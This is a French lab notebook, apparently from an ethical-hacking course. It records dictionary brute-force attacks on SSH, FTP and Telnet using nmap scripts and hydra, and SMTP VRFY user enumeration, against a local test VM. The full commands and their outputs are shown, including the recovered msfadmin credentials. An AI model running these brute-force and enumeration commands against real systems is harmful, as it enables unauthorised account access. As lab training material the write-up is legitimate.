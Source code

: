 
## 1° Attaque par brute force SSH,FTP,Telnet

>On créer 2  fichiers : - Une liste pour les usernames et Une liste pour les MDP

### a) Attaque par brute force ==SSH== 

		> nmap -p 22 --script /usr/share/nmap/scripts/ssh-brute.nse --script-args userdb=/tmp/UserList,passdb=/tmp/PassList 192.168.56.101
		
	-> On lance donc une attaque par dictionaire et on se connecte 

```bash 
[Sep 11, 2024 - 12:12:51 (CEST)] exegol-EthicalHacking /workspace # hydra -l msfadmin -p msfadmin -t 2 -v 192.168.56.101 ssh
Hydra v9.4 (c) 2022 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2024-09-11 12:12:54
[VERBOSE] More tasks defined than login/pass pairs exist. Tasks reduced to 1
[DATA] max 1 task per 1 server, overall 1 task, 1 login try (l:1/p:1), ~1 try per task
[DATA] attacking ssh://192.168.56.101:22/
[VERBOSE] Resolving addresses ... [VERBOSE] resolving done
[INFO] Testing if password authentication is supported by ssh://msfadmin@192.168.56.101:22
[ERROR] could not connect to ssh://192.168.56.101:22 - kex error : no match for method server host key algo: server [ssh-rsa,ssh-dss], client [ssh-ed25519,ecdsa-sha2-nistp521,ecdsa-sha2-nistp384,ecdsa-sha2-nistp256,sk-ssh-ed25519@openssh.com,sk-ecdsa-sha2-nistp256@openssh.com,rsa-sha2-512,rsa-sha2-256]
``` 

> On a un erreur lié a la clé de chiffrement

   Ensuite on connait les credentials donc on peux se connecter : 
	   	>ssh msfadmin@192.168.56.101 -oHostKeyAlgorithms=+ssh-dss
	   	
## 2° Brute force par FTP
> On essaye de se connecter en brute force via FTP : 

```bash 
[Sep 11, 2024 - 12:23:21 (CEST)] exegol-EthicalHacking /workspace # nmap -p 21 --script /usr/share/nmap/scripts/ftp-brute.nse --script-args userdb=/tmp/UserList,passdb=/tmp/PassList 192.168.56.101
Starting Nmap 7.93 ( https://nmap.org ) at 2024-09-11 12:23 CEST
Nmap scan report for 192.168.56.101
Host is up (0.00017s latency).

PORT   STATE SERVICE
21/tcp open  ftp
| ftp-brute:
|   Accounts:
|     msfadmin:msfadmin - Valid credentials
|_  Statistics: Performed 1 guesses in 1 seconds, average tps: 1.0
MAC Address: 08:00:27:13:81:DD (Oracle VirtualBox virtual NIC)

Nmap done: 1 IP address (1 host up) scanned in 0.22 seconds
```

On a reussi le brute force par FTP


## 3° Brute force par Telnet :

```bash  
[Sep 11, 2024 - 12:25:34 (CEST)] exegol-EthicalHacking /workspace # nmap -p 23 --script /usr/share/nmap/scripts/telnet-brute.nse --script-args userdb=/tmp/UserList,passdb=/tmp/PassList 192.168.56.101
Starting Nmap 7.93 ( https://nmap.org ) at 2024-09-11 12:27 CEST
Nmap scan report for 192.168.56.101
Host is up (0.00023s latency).

PORT   STATE SERVICE
23/tcp open  telnet
| telnet-brute:
|   Accounts:
|     msfadmin:msfadmin - Valid credentials
|_  Statistics: Performed 1 guesses in 1 seconds, average tps: 1.0
MAC Address: 08:00:27:13:81:DD (Oracle VirtualBox virtual NIC)

Nmap done: 1 IP address (1 host up) scanned in 0.31 seconds
```

>  telnet 192.168.56.101 25 
>  Ensuite avec VRFY [NOM] on peut tester si l'username existe

## 4° SMTP 

```bash 
smtp-user-enum -M VRFY -U truc.txt -t 192.168.56.101 Starting smtp-user-enum v1.2 ( [http://pentestmonkey.net/tools/smtp-user-enum](http://pentestmonkey.net/tools/smtp-user-enum "http://pentestmonkey.net/tools/smtp-user-enum") ) ---------------------------------------------------------- | Scan Information | ---------------------------------------------------------- Mode ..................... VRFY Worker Processes ......... 5 Usernames file ........... truc.txt Target count ............. 1 Username count ........... 6 Target TCP port .......... 25 Query timeout ............ 5 secs Target domain ............ ######## Scan started at Wed Sep 11 12:37:53 2024 ######### 192.168.56.101: msfadmin exists ######## Scan completed at Wed Sep 11 12:37:53 2024 ######### 1 results.
```

On sait que l'utilisateur ==msfadmin== exist

On rajoute **SYS** a notre list d'user a tester : 

```bash 
smtp-user-enum -M VRFY -U truc.txt -t 192.168.56.101 Starting smtp-user-enum v1.2 ( [http://pentestmonkey.net/tools/smtp-user-enum](http://pentestmonkey.net/tools/smtp-user-enum "http://pentestmonkey.net/tools/smtp-user-enum") ) ---------------------------------------------------------- | Scan Information | ---------------------------------------------------------- Mode ..................... VRFY Worker Processes ......... 5 Usernames file ........... truc.txt Target count ............. 1 Username count ........... 7 Target TCP port .......... 25 Query timeout ............ 5 secs Target domain ............ ######## Scan started at Wed Sep 11 12:40:06 2024 ######### 192.168.56.101: msfadmin exists 192.168.56.101: SYS exists ######## Scan completed at Wed Sep 11 12:40:07 2024 ######### 2 results. 7 queries in 1 seconds (7.0 queries / sec)
```
